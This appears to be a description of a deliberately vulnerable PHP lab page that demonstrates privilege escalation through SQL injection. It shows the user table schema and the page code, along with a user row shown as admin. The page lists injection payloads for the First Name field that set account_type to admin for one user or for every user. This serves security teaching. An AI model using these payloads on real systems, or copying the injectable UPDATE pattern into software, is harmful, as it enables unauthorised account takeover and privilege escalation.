
Screenshot of /profile.php?action=privesc (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `user` (
  `id` int(11) NOT NULL,
  `firstname` varchar(200) DEFAULT NULL,
  `lastname` varchar(200) DEFAULT NULL,
  `age` int(10) NOT NULL,
  `email` varchar(200) DEFAULT NULL,
  `phone` varchar(200) DEFAULT NULL,
  `password` varchar(200) DEFAULT NULL,
  `account_type` varchar(20) DEFAULT 'user'
);

### pages/privesc.php (the view, shortened to what this page needs)
<?php
$current_user = null;
if (isset($_SESSION['id'])) {
    $stmt = $pdo->prepare("SELECT id, firstname, lastname, email, account_type FROM user WHERE id = :id");
    $stmt->execute([':id' => $_SESSION['id']]);
    $current_user = $stmt->fetch(\PDO::FETCH_ASSOC);
}
?>
<div class="card mb-4 border-danger">
  <div class="card-header bg-danger text-white">
    <strong>⚠️ Vulnerable Page — Privilege Escalation via SQLi Demo</strong>
  </div>
  <div class="card-body">
    <p class="mb-1"><strong>Objective:</strong> Inject into the UPDATE query to escalate your own <code>account_type</code> from <code>user</code> to <code>admin</code>.</p>
    <p class="mb-1"><strong>Vulnerable query pattern:</strong></p>
    <code>UPDATE user SET firstname='{first_name}', lastname='{last_name}' WHERE id={id}</code>
    <p class="mt-2 mb-1"><strong>Payload for "First Name" field:</strong></p>
    <ul class="mb-0">
      <li><code>anything', account_type='admin</code> — injects extra column into SET</li>
      <li><code>anything', account_type='admin' WHERE id=YOUR_ID-- </code> — scoped escalation</li>
      <li><code>anything', account_type='admin' WHERE '1'='1</code> — escalates ALL users</li>
    </ul>
    <p class="mt-2 mb-0 text-muted small">Check your account_type before and after to see the change.</p>
  </div>
</div>
<?php if ($current_user): ?>
<div class="alert alert-info">
  <strong>Your current account:</strong>
  ID: <code><?= htmlspecialchars($current_user['id']) ?></code> |
  Name: <code><?= htmlspecialchars($current_user['firstname'] . ' ' . $current_user['lastname']) ?></code> |
  Role: <strong><?= htmlspecialchars($current_user['account_type']) ?></strong>
</div>
<?php endif; ?>
<div class="card">
  <div class="card-header">Vulnerable Profile Update Form</div>
  <div class="card-body">
    <form method="post">
      <div class="mb-3">
        <label class="form-label">User ID (target)</label>
        <input type="text" name="uid" class="form-control" style="max-width:200px"
               value="<?= htmlspecialchars($_SESSION['id'] ?? '1') ?>">
        <small class="text-muted">Defaults to your own ID — try changing to attack another user</small>
      </div>
      <div class="mb-3">
        <label class="form-label">First Name</label>
        <input type="text" name="first_name" class="form-control"
               placeholder="Try: anything', account_type='admin">
        <small class="text-muted">Inject here to add extra columns to the SET clause</small>
      </div>
      <div class="mb-3">
        <label class="form-label">Last Name</label>
        <input type="text" name="last_name" class="form-control" placeholder="Last name">
      </div>
      <button type="submit" name="escalate" class="btn btn-danger">Update Profile</button>
    </form>
  </div>
</div>

### rows the page displays
user: id "8", firstname+lastname "tesh besu", account_type "admin"

### other values shown
$_SESSION['email'] "besu@gmail.com"
